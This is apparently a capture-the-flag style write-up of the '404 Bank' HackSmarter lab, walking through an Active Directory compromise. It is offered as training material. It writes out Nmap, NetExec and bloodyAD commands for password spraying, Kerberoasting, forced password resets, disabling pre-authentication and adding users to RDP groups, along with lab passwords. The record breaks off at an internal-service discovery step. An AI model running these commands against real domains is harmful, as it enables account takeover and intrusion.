404-Bank
- Platform: HackSmarter Labs
- Difficulty: Medium-Hard
- Domain: 404finance.local
- Key Topics: Active Directory ACL Abuse, Kerberoasting, ADCS ESC4, Pivoting
Introduction
404 Bank, a staple of the local financial community, is conducting its annual security assessment. To uphold their motto of being "Proven, Local, Strong," the bank has commissioned the HackSmarter Labs Red Team to perform an internal penetration test.
Key Skills Required:
- Active Directory enumeration and exploitation
- ACL abuse techniques
- Password cracking
- ADCS exploitation (ESC4)
- Pivoting and tunneling
- Kerberos attacks (AS-REP roasting, Kerberoasting)
Objective / Scope
Initial Access
You have been provided with VPN access to their internal environment, but no other information. The goal is to compromise the domain and obtain administrator access.
Reconnaissance
[Step 1] Nmap Scan
I initiated a comprehensive port scan against the target to identify available services:
nmap --privileged -p- -T4 -sC -sV -Pn -oA nmap_404 10.0.17.242Key Findings:
Nmap 7.95 scan initiated Fri Feb 6 12:50:29 2026 as: /usr/lib/nmap/nmap --privileged -p- -T4 -sC -sV -Pn -oA nmap_404 10.0.17.242
Nmap scan report for 10.0.17.242
Host is up (0.13s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: 404 Finance Group
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-02-06 18:01:01Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: 404finance.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-06T18:02:30+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-404.404finance.local
| Not valid before: 2025-07-03T13:35:22
|_Not valid after: 2026-07-03T13:35:22
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: 404finance.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-06T18:02:30+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-404.404finance.local
| Not valid before: 2025-07-03T13:35:22
|_Not valid after: 2026-07-03T13:35:22
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: 404finance.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-404.404finance.local
| Not valid before: 2025-07-03T13:35:22
|_Not valid after: 2026-07-03T13:35:22
|_ssl-date: 2026-02-06T18:02:30+00:00; +3s from scanner time.
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: 404finance.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-06T18:02:30+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-404.404finance.local
| Not valid before: 2025-07-03T13:35:22
|_Not valid after: 2026-07-03T13:35:22
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: FINANCE404
| NetBIOS_Domain_Name: FINANCE404
| NetBIOS_Computer_Name: DC-404
| DNS_Domain_Name: 404finance.local
| DNS_Computer_Name: DC-404.404finance.local
| Product_Version: 10.0.17763
|_ System_Time: 2026-02-06T18:01:52+00:00
|_ssl-date: 2026-02-06T18:02:30+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Not valid before: 2026-01-27T22:25:59
|_Not valid after: 2026-07-29T22:25:59
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
49666/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49670/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49671/tcp open msrpc Microsoft Windows RPC
49675/tcp open msrpc Microsoft Windows RPC
49678/tcp open msrpc Microsoft Windows RPC
49702/tcp open msrpc Microsoft Windows RPC
49713/tcp open msrpc Microsoft Windows RPC
49743/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC-404; OS: Windows; CPE: cpe:/o:microsoft:windowsEnvironment Summary:
- Domain: 404finance.local
- Domain Controller: DC-404.404finance.local
- OS: Windows Server 2019 (Build 17763)
- Key Services: Active Directory, IIS Web Server, RDP, WinRM, ADCS (implied)
[Step 2] Web Enumeration
The HTTP service on port 80 revealed a corporate website for 404 Finance Group. The front page contains valuable information about employees.

The website revealed several employee names that could be used for username enumeration. Additionally, a downloadable .exe file was discovered on another page.

Creating a Username List
Using the employee names discovered on the website, I generated a comprehensive username list with username-anarchy:
username-anarchy/username-anarchy --input-file usernames --select-format first,flast,first.last,firstl > users.listThis tool generates various username format permutations (first name only, first initial + last name, first.last, etc.) which are commonly used in enterprise environments.
Executable Analysis
Running strings against the downloaded executable revealed an interesting Base64-encoded debug string:

Decoding the Base64 string revealed what appeared to be an MD5 hash. I confirmed this by counting the characters:
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ echo 'ZGQyZWYzNDUzMGRlN2U1YmVmMjJhMDVlN2U1ZGQxNzg=' | base64 -d
dd2ef34530de7e5bef22a05e7e5dd178
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ echo 'ZGQyZWYzNDUzMGRlN2U1YmVmMjJhMDVlN2U1ZGQxNzg=' | base64 -d | wc -c
32The 32-character length confirmed this was an MD5 hash.
Hash Cracking
Using hashcat with the rockyou wordlist, I successfully cracked the MD5 hash:

Initial Access
[Step 3] Username Validation
First, I generated the /etc/hosts file entry using NetExec:
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ nxc smb 10.0.17.242 -u karl.hackermann -p '[REDACTED]' --generate-hosts-file host
SMB 10.0.17.242 445 DC-404 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.0.17.242 445 DC-404 [+] 404finance.local\karl.hackermann:[REDACTED]Using Kerbrute, I validated which usernames from my generated list were legitimate domain accounts:

[Step 4] Password Spraying
With the validated usernames, I performed password spraying using the cracked password Password123!! and achieved success:

Valid Credentials:
karl.hackermann:Redacted[Step 5] Active Directory Enumeration
Using NetExec, I collected comprehensive BloodHound data for attack path analysis:

I'm using a custom NetExec branch that includes certihound (a library i made recently), a tool that collects ADCS (Active Directory Certificate Services) data and includes it in the BloodHound collection. This project can be found at: https://github.com/0x0Trace/NetExec/tree/feature/adcs-collection

The BloodHound analysis immediately identified svc.services as a high-value target due to its privileges within the domain.

However, we observed that the svc.services account was disabled, which would require additional steps to exploit.
Privilege Escalation - Multi-Stage ACL Abuse
[Step 6] Attack Path Discovery
Analyzing the BloodHound data revealed a clear attack path from our compromised account to the high-value svc.services account:

Attack Chain:
karl.hackermannhas GenericWrite overtom.reboottom.reboothas ForceChangePassword overrobert.graefrobert.graefhas WriteAccountRestrictions oversvc.services
The WriteAccountRestrictions ACE is particularly powerful as it allows us to:
- Remove the ACCOUNTDISABLE flag
- Disable Kerberos pre-authentication (enabling AS-REP roasting)
- Modify other account restrictions
[Step 7] Compromising tom.reboot via Targeted Kerberoasting
The GenericWrite permission allows us to modify properties of the target user, including adding a Service Principal Name (SPN). By adding an SPN to tom.reboot, we can perform a targeted Kerberoasting attack.
I used targetedKerberoast to add an SPN and request a service ticket:

The retrieved Kerberos ticket hash was successfully cracked using hashcat:
hashcat krb5_hash_tom /usr/share/wordlists/rockyou.txt
Compromised Credentials:
tom.reboot:Redacted[Step 8] Compromising robert.graef via ForceChangePassword
With control over tom.reboot, I leveraged the ForceChangePassword ACE to reset robert.graef's password using bloodyAD:
bloodyAD --host DC-404.404finance.local -d 404finance.local -u 'tom.reboot' -p '[REDACTED]' set password 'robert.graef' 'Zerotrace123!'
[Step 9] Targeting svc.services via WriteAccountRestrictions
With access to robert.graef, I now had WriteAccountRestrictions over svc.services. This powerful permission allowed me to modify the account's UserAccountControl flags.
First, I removed the ACCOUNTDISABLE flag to enable the account:
bloodyAD --host DC-404.404finance.local -d 404finance.local -u robert.graef -p 'Zerotrace123!' remove uac ACCOUNTDISABLE -t svc.services
Next, I disabled Kerberos pre-authentication by adding the DONT_REQ_PREAUTH flag, making the account vulnerable to AS-REP roasting:

With pre-authentication disabled, I performed an AS-REP roasting attack to retrieve the password hash:

Unfortunately, the hash could not be cracked using standard wordlists:

This indicated that the password for svc.services was either very complex or not in common wordlists, requiring an alternate attack path.
Lateral Movement - Hunting for Credentials
[Step 10] Expanding Access via robert.graef
Going back to analyze robert.graef's permissions in BloodHound, I discovered additional privilege opportunities:

Key findings:
- AddMember privilege over Remote Desktop Users group
- ForceChangePassword over three accounts:
melanie.kunz,nina.inkasso, andjan.tresor
Strategy: Reset passwords for these accounts, add them to the Remote Desktop Users group, and hunt for credentials, files, and sensitive data via RDP sessions.
[Step 11] Compromising RDP Accounts
I systematically compromised each account:
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ bloodyAD --host DC-404.404finance.local -d 404finance.local -u 'robert.graef' -p 'Zerotrace123!' set password 'melanie.kunz' 'Zerotrace123!'
[+] Password changed successfully!
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ bloodyAD --host DC-404.404finance.local -d 404finance.local -u 'robert.graef' -p 'Zerotrace123!' add groupMember 'remote desktop users' 'melanie.kunz'
[+] melanie.kunz added to remote desktop usersI repeated this process for nina.inkasso and jan.tresor.
[Step 12] Credential Discovery
While enumerating the desktop of user jan.tresor via RDP, I discovered a valuable file in the Recycle Bin:

Restoring the message titled "Access credentials - Dont tell Anyone..." revealed a password:

The message context indicated this was the password for Daniel Hoffman:
daniel.hoffmann:RemoteAccess!2024[Step 13] Validating daniel.hoffmann Access
Checking BloodHound, I confirmed that daniel.hoffmann is a member of the Remote Management Users group, granting WinRM access:

I validated the credentials using NetExec:

Establishing an Evil-WinRM session, I successfully obtained the user flag:

Post-Exploitation - Internal Service Discovery
[Step 14] Port Enumeration
Running netstat on the compromised system revealed an internal service listening on port 5000 that wasn't detected during the external Nmap scan:
